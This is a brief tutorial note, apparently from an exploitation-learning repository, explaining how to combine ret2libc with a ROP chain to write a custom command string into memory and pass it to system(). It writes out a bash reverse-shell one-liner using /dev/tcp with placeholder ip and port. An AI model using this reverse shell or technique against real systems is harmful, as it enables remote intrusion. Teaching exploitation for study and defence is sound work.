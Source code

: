 # ret2libc + ROP

There are a lot of times when we have the ability to do a ret2libc exploit, but wan't to execute a command other than `/bin/sh`  

The most obvious example is when we are dealing with a binary on a remote box, and we wan't to execute a reverse shell command  
There is no way we are not going to happen to find  
`bash -c 'bash -i >& /dev/tcp/ip/port 0>&1`  
randomly in a process, or its libc's memory  

In these cases, we have to craft the string which will be executed by `system()` ourselves  

To do this, we combine elements of a standard basic ret2libc exploit and a standard basic ROP chain exploit  
We use the same technique as we do in the ROP chain to write our string to writeable memory, and then we use ret2libc to call `system()` with that string as parameter  

A good example of this type of exploit is here: [4_ret2libc_rop](./fundamental_examples/4_ret2libc_rop/exploit.py)  

